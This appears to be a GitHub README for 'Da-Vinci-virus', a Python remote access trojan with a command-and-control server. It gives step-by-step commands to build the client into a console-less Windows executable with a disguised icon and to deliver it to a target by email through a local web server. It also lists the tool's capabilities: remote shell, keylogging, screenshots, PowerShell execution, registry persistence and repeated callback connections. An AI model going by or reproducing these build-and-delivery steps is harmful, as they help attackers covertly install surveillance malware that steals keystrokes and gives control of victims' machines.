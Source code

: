 # Da-Vinci-virus
> 0xAryan
---

```

██████╗  █████╗       ██╗   ██╗██╗███╗   ██╗ ██████╗██╗      ██╗   ██╗██╗██████╗ ██╗   ██╗███████╗
██╔══██╗██╔══██╗      ██║   ██║██║████╗  ██║██╔════╝██║      ██║   ██║██║██╔══██╗██║   ██║██╔════╝
██║  ██║███████║█████╗██║   ██║██║██╔██╗ ██║██║     ██║█████╗██║   ██║██║██████╔╝██║   ██║███████╗
██║  ██║██╔══██║╚════╝╚██╗ ██╔╝██║██║╚██╗██║██║     ██║╚════╝╚██╗ ██╔╝██║██╔══██╗██║   ██║╚════██║
██████╔╝██║  ██║       ╚████╔╝ ██║██║ ╚████║╚██████╗██║       ╚████╔╝ ██║██║  ██║╚██████╔╝███████║
╚═════╝ ╚═╝  ╚═╝        ╚═══╝  ╚═╝╚═╝  ╚═══╝ ╚═════╝╚═╝        ╚═══╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚══════╝
                                                                                               
```
![IMAGE](img.png)



## Overview:
Da-Vinci-virus is rat i am writing for fun as a pet project
Our rat is divided into 2 parts:
- client
- server

### Client:
	Our malware will be running as the client software on the victem's machine
	in our case a windows 10 vm simulated using qemu

### Server:
	We have implemented out our server to ast as C2(command & control) for our
	virus which will be use to receve the call back connections from our virus
	This c2 will be running on remnux linux machine(a ubuntu linux based machine with focus on malware 
	reversing) it will also be simualted using qemu

### Network - 
    Both our client and server vm will share a same nat provided by qemu

**Software Architecture**:
![IMG](infra.png)

## Requirements:
**Attacker PC:**
- Linux distro [Debian Based]
- Python2
- wine32
    - requests
    - pyinstaller=3.6
    - mss=4.0.2
    - pynput=1.4.2

**Target PC:**
- Windows 10

## Installation:
**Target Installation:**
- Download the exe to the target pc we can do this through diffrent steps
    - I am using a python web server to send it to target email

**Attacker Installation:**
1. Install Da-Vinci-virus by cloning this repository
```bash
git clone https://github.com/0xAryan/Da-Vinci-virus.git
```
2. Install Python2 and wine

```bash
sudo dpkg --add-architecture i386
sudo apt update && sudo apt upgrade -y
sudo apt install python2 wine32
```
3. Install the Python2 for windows in linux to compile it into exe
```bash
wget https://www.python.org/ftp/python/2.7.14/python-2.7.14.msi
wine msiexec /i python-2.7.14.msi
```
4. Install the pakages required in python2 for windows
```bash
wine ~/.wine/drive_c/Python27/python.exe -m pip install pyinstaller==3.6
wine ~/.wine/drive_c/Python27/python.exe -m pip install --upgrade pip
wine ~/.wine/drive_c/Python27/python.exe -m pip install mss==4.0.2
wine ~/.wine/drive_c/Python27/python.exe -m pip install pynput==1.4.2
```
## Configuration File:
Change the ip address and port in `server.py` to that of your host linux machines ip
you want to use to control and host the c2. Change it in `da-vinci-virus.py` as well before
compiling

## Compiling the virus into exe and sending it:
```bash
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --noconsole --onefile --icon gas_mask.ico da-vinci-virus.py
python3 -m http.server  #hosting web server to download the exe to target 
```

After this we just need to browse to the http://<c2-ip>:8000 and download the exe and run it

## Features
- Gives full command-line access to the target windows pc
- `Screenshot` - We can take screenshot of the target pc screen
- `Keylogger`  - We can capture keystrokes of the what the target types 
- `Powershell` - We can use it to run powershell
- `Start `  - We can use it to run other programs like calulator, notepad etc
- `check` - It can check for admin privillages
- `backdoor` - It add a registry entry so it will run after each restart so we get persistence on target pc
- `reliable` - It keep trying to connect to use in every 20 sec till we receive the connection